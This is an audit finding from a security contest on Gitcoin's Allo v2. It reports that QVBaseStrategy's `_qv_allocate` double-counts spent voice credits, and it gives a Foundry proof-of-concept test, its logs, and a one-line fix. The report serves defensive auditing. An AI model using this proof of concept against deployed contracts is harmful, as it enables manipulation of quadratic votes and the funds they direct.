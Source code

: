 Oblong Clay Kangaroo

high

# Malicious user can split the vote in QVBaseStrategy to get more votes.
Incorrect calculation of `voiceCreditsCastToRecipient` in `_qv_allocate` of `QVBaseStrategy`, resulting in more votes than intended.
## Vulnerability Detail

The `_qv_allocate` is performed as follows.

1. Gets the current credit spent by the `sender` on `_recipientId` and the current vote count for `_recipientId`.

```solidity
// get the previous values
uint256 creditsCastToRecipient = _allocator.voiceCreditsCastToRecipient[_recipientId];
uint256 votesCastToRecipient = _allocator.votesCastToRecipient[_recipientId];
```

2. Add the credit already used for `_recipientId` and the credit to be used this time and store it in `totalCredits`, and sqrt the result in `voteResult`.

```solidity
// get the total credits and calculate the vote result
uint256 totalCredits = _voiceCreditsToAllocate + creditsCastToRecipient;
uint256 voteResult = _sqrt(totalCredits * 1e18);
```

3. Subtract the amount of votes already cast by the sender from `voteResult` to get the votes for this credit. Add this to `totalRecipientVotes`, `_recipient.totalVotesReceived`

```solidity
voteResult -= votesCastToRecipient;
totalRecipientVotes += voteResult;
_recipient.totalVotesReceived += voteResult;
```

4. Add `totalCredits` to `_allocator.voiceCreditsCastToRecipient` and `voteResult` to `_allocator.votesCastToRecipient`.

```solidity
_allocator.voiceCreditsCastToRecipient[_recipientId] += totalCredits;
_allocator.votesCastToRecipient[_recipientId] += voteResult;
```

The vulnerability exists in #4, where `totalCredits` is the sum of the previously used credit and the credit to be used, as seen in #2. Since `_allocator.voiceCreditsCastToRecipient` already stores the value of the previously used credit, the result is that the previously used credit is added twice.

POC:

Normal case: 

If user allocated 100 at once

```solidity
[PASS] test_allocate_manipulate() (gas: 304252)
Logs:
  voiceCreditsCastToRecipient 100
  votesCastToRecipient 10000000000
```

Test code:

```solidity
function test_allocate_manipulate() public {
        address recipientId = __register_accept_recipient();
        address allocator = randomAddress();

        vm.startPrank(pool_manager2());
        qvSimpleStrategy().addAllocator(allocator);

        vm.warp(allocationStartTime + 10);
        bytes memory allocateData;

        vm.stopPrank();

        for(uint256 i =0;i<100;i++) {
            allocateData = __generateAllocation(recipientId, i+1);
            vm.prank(address(allo()));
            qvSimpleStrategy().allocate(allocateData, allocator);
        }
    }
```

Result:

```solidity
Logs:
  voiceCreditsCastToRecipient 1
  votesCastToRecipient 1000000000
  voiceCreditsCastToRecipient 4
  votesCastToRecipient 1732050807
  voiceCreditsCastToRecipient 11
  votesCastToRecipient 2645751311
  voiceCreditsCastToRecipient 26
  votesCastToRecipient 3872983346
  voiceCreditsCastToRecipient 57
  votesCastToRecipient 5567764362
  voiceCreditsCastToRecipient 120
  votesCastToRecipient 7937253933
  voiceCreditsCastToRecipient 247
  votesCastToRecipient 11269427669
...
  votesCastToRecipient 99516432383215196322247
  voiceCreditsCastToRecipient 39614081257132168796771975072
  votesCastToRecipient 140737488355327999999999
  voiceCreditsCastToRecipient 79228162514264337593543950239
  votesCastToRecipient 199032864766430392644494
  voiceCreditsCastToRecipient 158456325028528675187087900574
  votesCastToRecipient 281474976710655999999999
  voiceCreditsCastToRecipient 316912650057057350374175801245
  votesCastToRecipient 398065729532860785288988
  voiceCreditsCastToRecipient 633825300114114700748351602588
  votesCastToRecipient 562949953421311999999999
  voiceCreditsCastToRecipient 1267650600228229401496703205275
  votesCastToRecipient 796131459065721570577976
  voiceCreditsCastToRecipient 2535301200456458802993406410650
  votesCastToRecipient 1125899906842623999999999
```


## Impact
This can be exploited to manipulate voting by allowing much more votes to be cast for the same amount of credits.
## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/6430c8004017e96ae2f5aac365bdefd0b6eeea72/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol#L529
## Tool used

Manual Review

## Recommendation
Change like below
```solidity
_allocator.voiceCreditsCastToRecipient[_recipientId] = totalCredits;
```